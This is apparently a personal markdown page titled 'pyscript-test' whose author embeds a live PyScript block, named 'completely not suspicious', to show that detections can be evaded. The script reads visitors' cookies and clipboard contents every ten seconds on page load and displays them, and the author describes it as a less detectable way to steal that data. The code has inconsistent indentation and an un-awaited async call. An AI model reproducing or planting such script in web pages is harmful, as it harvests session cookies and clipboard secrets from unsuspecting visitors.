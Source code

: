 ```yaml
---
publish: true
title: pyscript-test
---
```

# What is this?
Well, I wanted to embed something else, but instead, how about I just show you what pyscript can do and see if your detections catch it! :D
## what?
So pyscript is really pretty neat, but it seems like it's just pythonic commands for javascript and not really a python runtime, so that brings limitations. Even so, pretty fun because it's super easy to make less detectable ways of stealing cookies and clipboard data.

<div id="c"></div>
<script type="module" src="https://pyscript.net/releases/2025.2.1/core.js"></script>
<script type="py" config='{"name": "completely not suspicious", "packages": ["asyncio"]}'>
import asyncio, js, pyscript, base64, urllib
from pyodide.ffi import create_proxy
import warnings
warnings.filterwarnings("ignore")

from js import XMLHttpRequest
from io import StringIO
from pyscript import document

async def get_clipboard_data():
        try:
            all_cookies = document.cookie
            text_data = await js.navigator.clipboard.readText()
	        pyscript.display("Cookies:\n"+all_cookies+"\nClipBoard:\n"+text_data)
        except:
            pass

pyscript.document.querySelector("#c").focus()
get_clipboard_data_proxy = create_proxy(get_clipboard_data)
pyscript.display("<h1>Data Found by clicking this page:<h1>\n\n")
async def main():
    while True:
        try:
            asyncio.ensure_future(get_clipboard_data_proxy())
            await asyncio.sleep(10)
        except:
            pass

main()
</script>
